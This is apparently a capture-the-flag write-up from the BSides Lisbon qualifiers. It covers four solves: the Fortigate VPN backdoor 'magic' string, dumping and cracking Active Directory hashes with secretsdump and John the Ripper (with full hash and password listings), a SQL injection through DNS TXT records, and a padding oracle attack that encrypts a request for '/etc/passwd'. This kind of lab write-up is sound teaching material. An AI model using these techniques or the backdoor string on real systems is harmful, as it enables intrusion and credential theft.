

# Quals Bsides Lisbon

## Scoreboard Top 10


## Challenges

### Chall 1: Orange is the new black

The first challenge was a trivia question: "Oops...What is the magic string?"
With the help of the challenge title "Orange is the new black", we can guess the question is focusing on the researcher named Orange Tsai. When googling "Orange Tsai magic string", we found the following link:

* <https://blog.orange.tw/2019/08/attacking-ssl-vpn-part-2-breaking-the-fortigate-ssl-vpn.html>

On this blogpost, we can learn that Orange Tsai found a backdoor on the Fortigate VPN SSL. In the login page of the Fortigate, there is a special parameter called "magic" allowing to modify any user's password. This parameter needs to be called with an hardcoded string. The magic string is blurred in the blogpost, but with some Google fu, it is possible to find it quickly on [exploit-db](https://www.exploit-db.com/exploits/49074).

The flag was: 4tinet2095866

### Chall 2: Deja Vu

For this challenge, 2 files were provided: Deja and Vu.

Let's start with the Deja file, which is a NTbackup file as identified by the `file` command:

```bash
$ file Deja    
Deja: Windows NTbackup archive NT, with file catalog, name: Backup.bkf created 11/26/2019 at 2:59 PMMTF Media Label|1.0|Seagate|NTBackup5.0|2019/11/26.14:59:20|Seagate 2019/11/26.14:59:20, label: MTF Media Label|1.0|Seagate|NTBackup5.0|2019/11/26.14:59:20|Seagate 2019/11/26.14:59:20|1|{4725EB4E-24A8-40EF-8F26-390317DECF6F, software (0xcbe): Backup Utility (NTBACKUP.EXE) Version 1.0 Rev. 3.41SA
```

The hardest part of this challenge is to find a free tool able to extract the content of the NTbackup file :) After some googling, I found a tool called [`mtftar`](https://github.com/geocar/mtftar), which transforms a NTbackup file on a tar archive as shown below:

```bash
$ ./mtftar -f Deja -v -o deja.tar 
MTF Generator: Backup Utility (NTBACKUP.EXE) Version 1.0 Rev. 3.41
Tape Name: Backup.bkf created 11/26/2019 at 2:59 PM
Tape Label: MTF Media Label|1.0|Seagate|NTBackup5.0|2019/11/26.14:59:20|Seagate 2019/11/26.14:59:20|1|{4725EB4E-24A8-40EF-8F26-390317DECF6F}||

-- Set#1
Set Name: Set created 11/26/2019 at 2:59 PM
Set Label: 
Set Owner: MATRIX\Administrator

File C:/temp/sam.save
File C:/temp/system.save
File C:/WINDOWS/NTDS/edb.chk
File C:/WINDOWS/NTDS/edb.log
File C:/WINDOWS/NTDS/edb00004.log
File C:/WINDOWS/NTDS/edbtmp.log
File C:/WINDOWS/NTDS/ntds.dit
File C:/WINDOWS/NTDS/res1.log
File C:/WINDOWS/NTDS/res2.log
File C:/WINDOWS/NTDS/temp.edb

$ tar xvf deja.tar
C:
C:/temp
C:/temp/sam.save
C:/temp/system.save
C:/WINDOWS/NTDS
C:/WINDOWS/NTDS/edb.chk
C:/WINDOWS/NTDS/edb.log
C:/WINDOWS/NTDS/edb00004.log
C:/WINDOWS/NTDS/edbtmp.log
C:/WINDOWS/NTDS/ntds.dit
C:/WINDOWS/NTDS/res1.log
C:/WINDOWS/NTDS/res2.log
C:/WINDOWS/NTDS/temp.edb
C:/WINDOWS/NTDS/Drop
```

We can quickly identify that the content of the NTbackup contains a backup of an Active Directory database. The NTDS.dit file is the heart of the Active Directory and stores data about user objects, groups and group membership. Using the `secretsdump` script from the Impacket library, we can extract the users and their hashes from the database as shown below:

```bash
$ impacket-secretsdump -sam C:/temp/sam.save -system C:/temp/system.save -ntds C:/WINDOWS/NTDS/ntds.dit LOCAL  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x27fc70657432cdc5ccfc550708bcea2a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:e5c441b5bea59d6f93be3a377c968336:b57a6ca7ff2c49b1d9587d7a650a49bd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a75e7ac7d0a5c4ec009223c26458fed9
[*] Reading and decrypting hashes from C:/WINDOWS/NTDS/ntds.dit 
Administrator:500:b34ce522c3e4c8770df97ed583cbb43f:d5b986fd10a3de6357d8a5498cae32d4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:60ab0dad0b3327d83d534968a00dfa17:::
SERVER$:1003:aad3b435b51404eeaad3b435b51404ee:f0aad6f3df329db61fd142ab2295d9bb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4f443682fcc94b068c287a5ab968e793:::
matrix.local\maryblack:1106:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\johndoe:1107:b34ce522c3e4c87722c34254e51bff62:fc525c9683e8fe067095ba2ddc971889:::
matrix.local\ninjadascaldas:1109:b34ce522c3e4c87722c34254e51bff62:fc525c9683e8fe067095ba2ddc971889:::
matrix.local\iiuser:1112:e52cac67419a9a22664345140a852f61:58a478135a93ac3bf058a5ea0e8fdb71:::
matrix.local\mssqluser:1113:e52cac67419a9a22664345140a852f61:58a478135a93ac3bf058a5ea0e8fdb71:::
matrix.local\Apoc:1115:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Cypher:1116:3bc5f9dabd69cfffa7de36b3f0f02df3:a20ef6aea8e111ab393b82e27ae84140:::
matrix.local\Dozer:1117:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Link:1118:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Switch:1119:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Tank:1120:b34ce522c3e4c87738f10713b629b565:5858d47a41e40b40f294b3100bea611f:::
matrix.local\alexsantos:1121:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\anakarenina:1122:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\homer:1123:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\rute:1124:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\wordpress:1125:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\apacheadmin:1126:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
[*] Cleaning up... 
```

After that, we can use `John the Ripper` or `hashcat` to crack the hashes obtained previously. Using `John the Ripper`, I was able to find the following passwords:

```bash
$ $ john --format=NT matrix_users.txt --show
Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
matrix.local\maryblack:Passw0rd:1106:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\johndoe:Passw0rd!:1107:b34ce522c3e4c87722c34254e51bff62:fc525c9683e8fe067095ba2ddc971889:::
matrix.local\ninjadascaldas:Passw0rd!:1109:b34ce522c3e4c87722c34254e51bff62:fc525c9683e8fe067095ba2ddc971889:::
matrix.local\iiuser:Password123:1112:e52cac67419a9a22664345140a852f61:58a478135a93ac3bf058a5ea0e8fdb71:::
matrix.local\mssqluser:Password123:1113:e52cac67419a9a22664345140a852f61:58a478135a93ac3bf058a5ea0e8fdb71:::
matrix.local\Apoc:Passw0rd:1115:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Cypher:chely.16.goth:1116:3bc5f9dabd69cfffa7de36b3f0f02df3:a20ef6aea8e111ab393b82e27ae84140:::
matrix.local\Dozer:Passw0rd:1117:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Link:Passw0rd:1118:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Switch:Passw0rd:1119:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Tank:Passw0rd1:1120:b34ce522c3e4c87738f10713b629b565:5858d47a41e40b40f294b3100bea611f:::
matrix.local\alexsantos:Passw0rd:1121:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\anakarenina:Passw0rd:1122:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\homer:Passw0rd:1123:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\rute:Passw0rd:1124:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\wordpress:Passw0rd:1125:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\apacheadmin:Passw0rd:1126:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::

18 password hashes cracked, 4 left
```

Many passwords found! And most of them use the same pattern! The only password not following the pattern is from the user named **cypher**. Keep that in mind!

Let's move on the next file to see if we can find a way to use these credentials. The second file Vu is a PCAP file. When analyzing the traffic from the PCAP, we identified that most of the traffic comes from the [Sample Captures page](https://wiki.wireshark.org/SampleCaptures) of Wireshark. The only unique traffic from the PCAP is the HTTP traffic coming from the IP address 192.168.88.245. The following text gives a hint:


After this HTTP traffic, there is an SSH connection from 192.168.88.245 to the server 84.22.117.139. But with the information provided, there is no possibility to decrypt the SSH traffic. So, I performed some port scanning on the IP address 84.22.117.139, but there is no SSH server listening. After hours of frustration, I tried to submit the cypher's password as the flag and... it worked!

The flag was: chely.16.goth

### Chall 3: ngDNS

This challenge was a simple web application allowing a user to perform DNS requests on a specified domain name.


The web application only retrieves the TXT records for the specified domain as shown below:


So, we need to set up a DNS server or use our favorite hoster to manipulate a TXT record from a domain we control. I first I was expecting an SSTI vulnerability, so I tried some classic payloads. But, when a quote appears inside the TXT record, an SQL error message was returned by the application:


From now, it is clear, we need to exploit an SQL injection to extract the flag. Let's do it manually by exploiting the SQL injection using the "UNION technique". Quickly we found the `gettheflag` table as shown below:


Finally, we can just get the flag!


### Chall 4: Crypto

Again, another web application, but this time the application only displays an image:


When looking at the HTML code of the page, we found that the following URL is used to get the image:

* <https://quals.bsideslisbon.org/2bd1a6cd3c5eba0ebe9b2ec7d5611827910a7c26/load?f=dmFzZS5qcGc%3D&v=ZFGCBLBS4IQGUQSDHPBGKBZNNJ6FTPTFYUVWLI4BKIF4HVE7YJEQ%3D%3D%3D%3D>

This URL contains 2 parameters `f` and `v`. The `f` parameter seems to be the name of the image encoded in base64:

```bash
$ echo -n "dmFzZS5qcGc=" | base64 -d
vase.jpg
```

However, the `v` parameter is not encoded in base64 but in base32. The data encoded is not human readable:

```bash
$ echo -n ZFGCBLBS4IQGUQSDHPBGKBZNNJ6FTPTFYUVWLI4BKIF4HVE7YJEQ==== | base32 -d | xxd
00000000: c94c 20ac 32e2 206a 4243 3bc2 6507 2d6a  .L .2. jBC;.e.-j
00000010: 7c59 be65 c52b 65a3 8152 0bc3 d49f c249  |Y.e.+e..R.....I
```

So, we can guess that the `v` parameter contains some encrypted data (remember the name of the challenge!) allowing to validate the `f` parameter. Indeed, if the value of the `f` the parameter is modified, the application returns that the file access is forbidden.

When dealing with an unknown encryption cipher, I like to launch the Intruder from BurpSuite with the "Bit flipper" payload and see how the application behaves:



From the results, we can observe we obtained an internal server error for all the requests except one. Maybe the application is vulnerable to a [padding oracle attack](https://research.nccgroup.com/2021/02/17/cryptopals-exploiting-cbc-padding-oracles/).

Several tools exist allowing to exploit a padding oracle attack; however, I didn't find a tool supporting base32 encoding (by default base64 is supported). So , we have no choice to modify an existing tool to perform the attack. Because I'm lazy, I didn't want to spend too much time writing code, so forget about `padbuster` (not touching Perl anymore, thanks!), [`python-paddingoracle`](https://github.com/mwielgoszewski/python-paddingoracle) (Python2) or [`padding-oracle-attacker`](https://github.com/KishanBagaria/padding-oracle-attacker) (Typescript). Finally, I found a tool named [`padre`](https://github.com/glebarez/padre) developed in Go!

We just need to replace `base64` by `base32` inside the factory.go file and rebuild the tool :)

Let's see if the `padre` tool can decrypt the `v` parameter:

```bash
$ ./padre -u "https://quals.bsideslisbon.org/2bd1a6cd3c5eba0ebe9b2ec7d5611827910a7c26/load?f=dmFzZS5qcGc%3D&v=$" "7D2TG4KNV2FR5TYO2KCPJ6N64JQDGOEIMLCWMMPQD5LTMMC5MJ6Q===="        
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 16
[!] mode: decrypt
[1/1] vase.jpg\x08\x08\x08\x08\x08\x08\x08\x08                                                                
```

And that's it! The `v` parameter contains the name of the file encrypted.

With the padding oracle attack, we can decrypt but we can also encrypt any data we want.
Now, the workflow is pretty straightforward, we just need to encrypt the name of the file containing the flag. We tried with `flag.txt` and `flag.png` without any success, the application returned an internal server error. Weird! Let's try to retrieve the `/etc/passwd` to identify the users available on the system:

```bash
$ ./padre -u "https://quals.bsideslisbon.org/2bd1a6cd3c5eba0ebe9b2ec7d5611827910a7c26/load?f=ZmxhZy5qcGc%3D&v=$"  -b 16 -enc "/etc/passwd"              1 ⨯
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[!] mode: encrypt
[1/1] 2KJ2AWW6N5XBG723JB6NDENFUFZWOZLOMVZWO3DCNZTWK6TJM5ZA====
```

The final URL is:

* <https://quals.bsideslisbon.org/2bd1a6cd3c5eba0ebe9b2ec7d5611827910a7c26/load?f=L2V0Yy9wYXNzd2Q%3D&v=2KJ2AWW6N5XBG723JB6NDENFUFZWOZLOMVZWO3DCNZTWK6TJM5ZA%3D%3D%3D%3D>

Note: The value of the `f` parameter needs to be modified to correspond to the filename encrypted. Here is the base64 encoding of `/etc/passwd`.

And we get the flag:


